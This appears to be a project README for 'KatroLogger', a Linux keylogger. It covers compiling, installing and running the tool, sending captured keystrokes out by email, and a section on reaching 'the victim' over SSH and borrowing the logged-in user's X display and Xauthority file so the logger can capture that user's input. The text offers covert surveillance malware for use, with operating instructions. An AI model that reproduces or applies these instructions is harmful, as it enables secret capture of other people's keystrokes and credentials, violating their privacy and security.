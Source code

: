 # KatroLogger
KeyLogger for Linux Systems.

- **Features**
  - Runs on GUI systems or CLI
  - Sending data by email

- **Dependencies**
  - curl
  - libx11-dev (Debian-Based)
  - libX11-devel (RHEL-Based)

- **Compiling**
```
# ./configure
# make
# make install
```
- **Usage**
```
# katrologger --output /path/file
```
Send data by e-mail:
```
# katrologger --smtp-help
```
- **Fixing problems accessing via SSH**
> when connecting to the victim remotely via ssh it will be necessary to export environment variables to run the keylogger.

For hosts with xorg running:
> identifying logged in user
```
# user=$(who | grep "(:0)" | awk '{print $1}')
# echo $user
```
> Exporting variables
```
# export DISPLAY=:0.0
# export XAUTHORITY=/home/$user/.Xauthority
```
- **Uninstall**
```
make uninstall
```
